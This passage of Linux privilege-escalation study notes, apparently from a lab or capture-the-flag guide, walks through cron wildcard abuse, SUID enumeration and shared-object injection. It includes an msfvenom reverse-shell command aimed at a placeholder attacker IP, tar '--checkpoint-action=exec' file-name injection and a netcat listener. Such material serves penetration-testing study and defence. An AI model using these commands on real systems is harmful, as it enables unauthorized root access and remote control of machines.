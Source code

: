 Run `chmod +x ~/overwrite.sh` and the cron job will create a bash shell with the SUID bit 
enabled giving us a root shell in /tmp.

### Cron Jobs - Wildcards

If any cron jobs with elevated privileges run commands with wildcards they can be exploited.

Example:

/usr/local/bin/compress.sh uses tar with a wildcard, [tar on GTFOBins](https://gtfobins.github.io/gtfobins/tar/) shows a shell exploit.

Create an msfvenom payload:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -f elf -o shell.elf`

Upload it to the target and `chmod +x shell.elf` 

tar will expand the wildcard and read any file names in /home/user, if there are files 
whose names are valid cli options it will recognise them and treat them as such.

Create two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Set up a netcat listener on you attacking machine and wait for the cron job to execute the 
reverse shell

### SUID / SGID Executables - Known Exploits

Find all SUID/GUID executables

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Check GTFOBins and exploit-db for any exploits

### SUID / SGID Executables - Shared Object Injection

Using `strace <COMMAND> 2<&1` shows the system calls a given command makes. Using grep you 
can look for open/access calls and "no such file" errors:

`strace <COMMAND> 2>&1 | grep -iE "open|access|no such file"`

If a command tries to access a file in an accessible directory you can inject malicious 
shared objects.

Example:

Running `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` shows 
that `suid-so` tries to load the /home/user/.config/libcalc.so shared object

Create the .config directory and compile some shared object code that spawns a bash shell:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /path/to/code/libcalc.c`

Next time `suid-so` is executed a root bash shell is spawned

### SUID / SGID Executables - Environment Variables
